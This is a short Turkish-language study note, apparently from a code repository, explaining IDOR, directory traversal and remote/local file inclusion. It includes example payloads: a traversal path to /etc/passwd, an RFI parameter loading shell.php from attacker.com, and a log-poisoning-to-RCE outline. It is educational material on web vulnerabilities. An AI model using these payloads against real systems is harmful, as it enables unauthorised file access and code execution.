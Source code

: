 # IDOR (Insecure Direct Object Reference)

Uygulamanın kullanıcıdan aldığı girdilerin doğrulaması yapılmadan işlenmesiyle ortaya çıkan erişim denetimi zafiyetidir. Kullanıcı parametreleri değiştirerek diğer kullanıcıların verilerine erişim sağlayabilir ve işlem yapabilir. Örneğin `...msgid=1` yi `...msgid=33` yaparak başka birinin mesajını okuyabilir. Temel mantık bu isteklerin kontrolsüz olması, sunucu "bu kullanıcı bu kaynağa erişebilir mi?" kontrolü yapmıyor.

## Yaygın Yerler:
- API endpoint'leri (`/api/user/123`, `/order/456`)
- Dosya indirme linkleri (`/download?file=report_5.pdf`)
- Profil sayfaları (`/profile?userid=789`)
- Mesajlaşma sistemleri (`/message?id=1`)

## Tespit:
ID parametrelerini değiştir ve başka kullanıcının verisine erişip erişemediğini kontrol et. Burp Suite ile request'i yakala, ID'yi değiştir, yolla. Eğer yetkisiz erişim sağlanıyorsa IDOR var demektir.

---

# Directory Traversal
Yetkiniz olmayan bir dosyanın dizin atlayarak okunabilecek başka bir dosyanın yoluna gidilir. Buradaki `../../../../etc/passwd` örneğini verebiliriz. Bunun farklı farklı encoding'leri olabilir.

---

# RFI/LFI (Remote/Local File Inclusion)

Uygulamanın dahil ettiği (include) dosyaları manipüle ederek kendi kodunuzu çalıştırma zafiyetidir.

**RFI (Remote File Inclusion):** Uzaktaki bir sunucudan zararlı dosya çalıştırabilirsiniz. Örneğin `?page=http://attacker.com/shell.php` gibi. Uygulama bu remote dosyayı include edip çalıştırıyor.

**LFI (Local File Inclusion):** Sunucuda zaten var olan bir dosyayı include edip çalıştırırsınız. Directory traversal ile bulduğumuz bir dosya yolunu (log dosyaları, upload edilen dosyalar, txt dosyaları gibi) include parametresine veririz. Örneğin log dosyasına zararlı kod yazdırıp sonra o log'u include ettirerek RCE (Remote Code Execution) elde edebiliriz. Aynı mantıkta çalışır ama kaynak local.

RFI -> harici kaynak, LFI -> local kaynak. İkisi de dosya include mekanizmasını kötüye kullanır.
